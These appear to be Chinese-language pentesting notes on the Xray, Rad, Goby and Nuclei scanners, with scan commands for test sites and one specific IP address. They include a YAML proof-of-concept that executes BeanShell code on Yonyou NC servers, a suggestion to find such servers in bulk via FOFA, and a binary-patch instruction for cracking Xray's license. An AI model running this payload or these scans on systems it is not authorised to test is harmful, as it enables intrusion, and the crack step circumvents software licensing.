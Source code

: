 ## Xray
https://github.com/chaitin/xray
https://docs.xray.cool/#
- 不是开源，但是可以在github上下载编译好的程序包
- 检测速度快, 支持范围广, 代码质量高, 高级可定制, 安全无威胁

### XRAY破解
使用二进制编辑器打开xray, 修改`COMMUNITY`中的任意一个字符

### 爬虫模式
```shell
#完整
xray.exe webscan --basic-crawler http://testphp.vulnweb.com --html-output vulnweb.com-1.html

#简化
xray.exe ws --basic http://testphp.vulnweb.com/ --ho vulnweb.com-2.html
```

### 被动扫描
1. 生成ca证书 `xray.exe genca`
2. 开启监听 `xray.exe ws --listen 127.0.0.1:8031 --ho testphp.html`
3. 浏览器代理设置, 到监听的端口

### BP联动
1. BurpSuite: `User options`-->`Upstream Proxy Servers`-->`Add`, 添加监听的端口
2. XRAY: 开启对应端口的监听

### Rad联动
https://github.com/chaitin/rad/releases
```shell
# 手动登录, 开启一个浏览器供手动登录
rad -t https://www.hetianlab.com/ -wait-login
# 将爬取结果导出为文件
rad -t https://ww.hetianlab.com/  -text-output result.txt
# 与xray联动
xray.exe ws --listen 127.0.0.1:8031 --ho proxy.html
rad -t http://120.27.61.239:8007 --http-proxy 127.0.0.1:8031
# xray高级版，融合
xray ws --browser-crawler http://120.27.61.239:8007 --ho vuln.html
```

### POC脚本编写
https://stack.chaitin.com/techblog/detail?id=50
- 编写辅助工具: https://poc.xray.cool
- C:\windows\win.ini
- https://regex101.com
- 配合fofa, 扫描用友nc的servlet漏洞
	- `/servlet/~ic/bsh.servlet.BshServlet`
	- POST["bsh.script"]
	- https://cloud.tencent.com/developer/article/1839237
```yml
name: poc-yaml-用友NC-bsh.servlet.BshServlet
transport: http
set:
  r3: randomInt(5000, 6000)
rules:
  r0:
    request:
      method: GET
      path: /servlet/~ic/bsh.servlet.BshServlet
      follow_redirects: false
    expression: response.status == 200 && response.body.bcontains(bytes(string('BeanShell')))
  r1:
    request:
      cache: true
      method: POST
      path: /servlet/~ic/bsh.servlet.BshServlet
      follow_redirects: false
      headers:
        Content-Type: application/x-www-form-urlencoded
      body: bsh.script=print%28%22{{r3}}%22%29%3B
    expression: response.status == 200 && response.body.bcontains(bytes(string(r3)))
expression: r0() && r1()
detail:
  author: test
  links:
    - http://test.test
```
```shell
# 执行检测
xray ws -p mypocs/poc-yaml-用友NC-bsh.servlet.BshServlet.yml -uf url.txt --ho yongyou-nc.html
```

## Goby
可视化图形界面, 由Zwell打造. 探测网络空间存活IP及解析域名, 端口对应的协议, Mac地址, 证书, 应用产品, 厂商等信息. 自动爬取子域名, ACFR检测, 二级域名字典爆破, 关联域名查询. 支持连接FOFA, 插件打开xray, 截图判断网站系统应用. 首先下载Npcap数据捕获包, 安装完成后启动goby
- 官网下载: https://www.gobies.cn/#dl
- 注册地址: https://www.gobies.cn/signUp
- 临时邮箱: https://tempail.com/en/

## Nuclei
https://github.com/projectdiscovery/nuclei
基于YAML的DSL的快速可定制的漏洞扫描器
- 支持协议: TCP, DNS, HTTP, SSL, File, Whois, Websocket, Headless等
- 文档: https://nuclei.projectdiscovery.io/nuclei/get-started
- 模板: https://github.com/projectdiscovery/nuclei-tamplates
	- 更新漏洞模板 `nuclei -update-templates`